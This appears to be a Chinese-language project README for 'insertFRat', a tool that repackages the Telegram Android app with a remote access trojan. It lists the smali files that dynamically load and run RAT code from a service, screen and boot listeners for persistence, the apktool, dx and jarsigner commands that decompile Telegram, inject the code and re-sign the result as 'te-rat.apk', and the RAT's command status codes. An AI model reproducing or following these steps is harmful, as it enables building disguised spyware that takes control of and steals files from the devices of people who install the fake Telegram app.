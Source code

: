 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

在Android Studio中编译生成apk文件，接着使用apktool反编译得到的apk。

```shell
apktool d app-debug.apk
```

进入到反编译生成的app-debug文件夹，进入到app-debug/smali/com/hhm/android/otherapp，理论上需要的smali如下：

- myService.smali、myService$1.smali：在服务中动态加载dex并反射执行initAndStartRat()方法启动RAT逻辑的java代码对应的smali。
- ScreenListener.smali、ScreenListener$1.smali、ScreenListener$ScreenBroadcastReceiver.smali、ScreenListener$ScreenStateListener.smali：屏幕事件监听。
- BootReceiver.smali：开机或重启完成监听。

### add
-gradlew makeJar
-dx --dex --output ratdex.jar  rat.jar
-java -jar apktool_2.4.1.jar d app-debug.apk
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

#### 命令指令问题
-- 0          //success
-- 10001      //没有权限，无法执行操作
-- 10002      //文件上传失败，请重试
-- 10003      //指令参数错误，参数为目录
-- 10004      //文件夹已存在
-- 10005      //文件夹创建失败
